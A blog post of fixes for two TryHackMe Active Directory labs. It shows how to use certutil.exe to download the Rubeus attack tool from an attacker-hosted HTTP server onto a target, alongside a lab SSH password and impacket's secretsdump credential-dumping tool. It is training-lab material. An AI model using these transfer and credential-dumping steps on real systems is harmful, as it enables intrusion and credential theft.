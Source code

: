 ```yaml
---
layout: post
title:  "TryHackMe - fixes"
date:   2025-01-12 14:10:00 +1000
categories: blog
tags: [cloud, offsec]
subtitle: "Fighting old battles again?"
image: Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png
---
```


![Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png](Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png)

List of issues encountered and their corresponding bypasses / fixes

## Attacking Kerberos - Harvesting & Brute-Forcing Tickets w/ Rubeus

The middleman machine's RDP never accepts the password provided. 

Luckily, an SSH service is running on the host, atypical for Windows.

First, let's connect via SSH and confirm connectivity
```
ssh Administrator@<KerberosServer>
Password: P@$$W0rd
```

Yay! However, if SSH is utilized, there will be problems compiling software or getting Rubeus on the host as it's not connected to the internet.

Luckily, someone compiled software we need: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

On the AttackBox, open terminal tab and run the following commands,
```
mkdir share && cd share
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
python3 http.server 8000
```

As a sanity-check, on AttackerBox, open Firefox and confirm the Rubeus download URL. It should be,
```
http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe
```

Then, we can work around connectivity issues using an old OffSec OSCP trick to infiltrate/exfiltrate data. Back to KerberosServer SSH, run:
```
cd Downloads
certutil.exe -urlcache -split -f http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe Rubeus.exe
```

You should then see a request in the http.server logs. Now you can run Rubeus. Luckily, all required .Net Framework packages are already on the host.

## Attacktive Directory - Elevating Privileges within the Domain

I encountered issues with the operation of `secretsdump.py` (stock or modified). Maybe it's related to AttackBox, maybe it's related to impacket. However, I found an easy workaround to the problem,

```
apt install python3-impacket
```
 
you should see,

```
After this operation, 27.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
```

now you can proceed as follows,

```
impacket-secretsdump <desired-secretsdump.py-command>
```


----------------------
Tim Abdiukov
